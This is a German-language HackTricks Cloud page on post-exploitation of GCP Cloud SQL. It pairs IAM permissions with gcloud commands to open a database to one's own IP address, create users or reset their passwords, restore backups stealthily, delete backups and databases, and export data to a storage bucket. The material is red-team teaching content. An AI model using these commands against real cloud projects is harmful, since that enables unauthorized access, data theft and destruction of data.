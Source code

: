 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Für weitere Informationen zu Cloud SQL siehe:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Um eine Verbindung zu den Datenbanken herzustellen, **benötigen Sie nur Zugriff auf den Datenbankport** und müssen den **Benutzernamen** und das **Passwort** kennen, es gibt keine IAM-Anforderungen. Eine einfache Möglichkeit, Zugriff zu erhalten, vorausgesetzt, die Datenbank hat eine öffentliche IP-Adresse, besteht darin, die erlaubten Netzwerke zu aktualisieren und **Ihre eigene IP-Adresse den Zugriff zu erlauben**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Es ist auch möglich, **`--no-backup`** zu verwenden, um die **Backups** der Datenbank zu **stören**.

Da dies die Anforderungen sind, bin ich mir nicht ganz sicher, wofür die Berechtigungen **`cloudsql.instances.connect`** und **`cloudsql.instances.login`** gedacht sind. Wenn du es weißt, sende einen PR!

### `cloudsql.users.list`

Erhalte eine **Liste aller Benutzer** der Datenbank:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Diese Berechtigung erlaubt es, **einen neuen Benutzer innerhalb** der Datenbank zu erstellen:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Diese Berechtigung erlaubt es, **Benutzer innerhalb** der Datenbank zu **aktualisieren**. Zum Beispiel könnten Sie das Passwort ändern:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups könnten **alte sensible Informationen** enthalten, daher ist es interessant, sie zu überprüfen.\
**Stellen Sie ein Backup** innerhalb einer Datenbank wieder:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Um es stealthier zu machen, wird empfohlen, eine neue SQL-Instanz zu erstellen und die Daten dort wiederherzustellen, anstatt in den derzeit laufenden Datenbanken.

### `cloudsql.backupRuns.delete`

Diese Berechtigung erlaubt das Löschen von Backups:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exportieren Sie eine Datenbank** in einen Cloud Storage Bucket, damit Sie von dort darauf zugreifen können:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importieren Sie eine Datenbank** (überschreiben) aus einem Cloud Storage-Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Löschen Sie eine Datenbank aus der DB-Instanz:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
